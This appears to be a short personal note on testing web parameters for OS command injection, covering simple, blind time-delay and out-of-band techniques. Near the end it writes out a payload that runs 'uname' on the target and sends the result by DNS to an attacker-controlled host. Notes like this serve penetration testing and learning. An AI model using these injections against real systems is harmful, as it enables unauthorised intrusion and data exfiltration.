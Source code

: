 when you are able to inject OS commands onto parameters / variables then its vulnerable

# Test 1 : Simple OS injection :
Use Burp to see potential parameters like :
![[b os 1.png]]



and try to run OS commands by using `;` in middle or something like `||` or `&&`  and last of them like :
![[b os 2.png]]

**There are many other commands that can be run check the [cheatsheet](https://hackersonlineclub.com/command-injection-cheatsheet/)**


# Test 2 : Blind OS injection with time delay :
Test if the target is executing commands but its just not showing for that we may use something like this :
![[b os 3.png]]
As you can see the response only comes after 10s 


# Test 3 : If they are using thread to seperate
Some Commands are executed in a different new thread so any sleep / normal command run will only effect new thread and website is unaffected

![[b os 4.png]]

So we are gonna inject this and the new Command is gonna ping myserver.com and we
check the logs of myserver.com to verify if It worked or not.
![[b os 5.png]]

so instead of using any `sleep+10` we use : `nslookup+myserver.com` 

### To take this a step further and cross check :
use `;nslookup+`\``uname`\``.myserver.com;` 
Note : \` is backticks
You must get the command result in your logs 
So in the logs you must get something like => ( os command getting executed ).rest of request




